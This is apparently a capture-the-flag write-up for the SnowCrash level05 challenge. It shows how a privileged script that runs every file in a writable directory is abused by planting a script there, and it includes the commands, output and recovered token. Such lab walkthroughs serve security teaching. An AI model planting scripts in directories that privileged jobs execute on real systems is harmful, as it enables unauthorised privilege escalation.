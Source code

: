 # Solution

So once we are loged in, we find no information in the home folder, so we are trying to find command.

```sh
find / -group flag05 2> /dev/null
```

This will output this file **/usr/sbin/openarenaserver** and if you cat this file here is the program:

```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So from reading the script we notice that it's gonna loop inside a directory **/opt/openarenaserver/**
and then use the file if it's an executable so we gonna create a file that holds a simple script and redirect the output in tmp.

Here is the script file:

```sh
echo 'getflag > /tmp/result' > /opt/openarenaserver/test.sh
chmod +x /opt/openarenaserver/test.sh
```

now we have to wait until the file is deleted and once the file is deleted we **cat /tmp/result**.

```sh
level05@SnowCrash:/opt/openarenaserver$ ls -la                                                                                                                                                                                                                               
total 0                                                                                                                                                                                                                                                                      
drwxrwxr-x+ 2 root root 40 Sep 13 21:44 .                                                                                                                                                                                                                                    
drwxr-xr-x  1 root root 60 Sep 13 17:59 ..                                                                                                                                                                                                                                   
level05@SnowCrash:/opt/openarenaserver$ cat /tmp/result                                                                                                                                                                                                                      
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
